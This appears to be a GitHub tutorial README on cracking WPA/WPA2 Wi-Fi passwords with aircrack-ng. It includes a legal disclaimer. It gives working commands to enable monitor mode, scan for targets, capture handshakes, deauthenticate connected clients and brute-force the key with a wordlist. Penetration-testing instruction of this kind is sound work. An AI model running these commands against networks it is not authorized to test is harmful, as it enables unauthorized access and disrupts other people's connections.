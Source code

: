 # Wi-Fi Cracking Tutorial: WPA/WPA2 Cracking with Aircrack-ng

## Introduction
This the next part of https://github.com/Officerwasu/Wi-Fi_pentesting 
Read that first.

**Disclaimer:** *This tutorial is for educational purposes only. Attempting to crack Wi-Fi networks for which you do not have explicit permission is illegal and unethical. Always respect privacy and operate within legal boundaries.*

## Prerequisites
List what the user needs before they start:
* **Hardware:**
    * Wireless network adapter capable of monitor mode and packet injection (e.g., Alfa AWUS036NHA).
* **Software:**
    * Any linux distro with sudo permissions.
    * aircrack-ng suite

## Setup
Instructions for any initial setup:
1.  Installing necessary tools.
    ```bash
    sudo apt update && sudo apt install aircrack-ng
    ```
2.  Ensuring your wireless adapter is recognized and can be put into monitor mode.
    * `ifconfig`
    * `ifconfig [wireless interface, eg wlan0]`
      `![Monitor Mode Activation](images/ifconfig.png)`
    * `sudo airmon-ng start wlan0`
       `![Monitor Mode Activation](images/monitor_mode.png)`

## Tutorial Steps

### Step 1: Scanning for Target Networks
1. `sudo airodump-ng wlan0`
2.  It will show you all the wifi networks in your vicinity
3.  What to look for BSSID, CH, ESSID of the target network.
        * Example: `![Airodump Scan](images/airodump.png)`

### Step 2: Capturing the Handshake
1.  `sudo airodump-ng -c [channel] --bssid [BSSID] --write capture wlan0`.
    * Example: `![Handshake Capture](images/handshake.png)`
2.  (Optional) Deauthenticating a client to speed up handshake capture.
    * `sudo aireplay-ng --deauth 0 -a [BSSID] wlan0`
        * Example: `![Deauth Attack](images/deauth.png)`

### Step 3: Cracking the Password
Brute-force attack.
1.  Using Aircrack-ng with a wordlist:
    *`aircrack-ng [capturefile.cap] -w [path to wordlist]`).
    * Example: `![Aircrack Success](images/aircrack.png)`


### Step 4: [Cleanup]
1.  Well we found the key
2.  `sudo airmon-ng stop wlan0mon` and `sudo systemctl restart NetworkManager`
     * Example: `![Network Restored](images/restored.png)

        
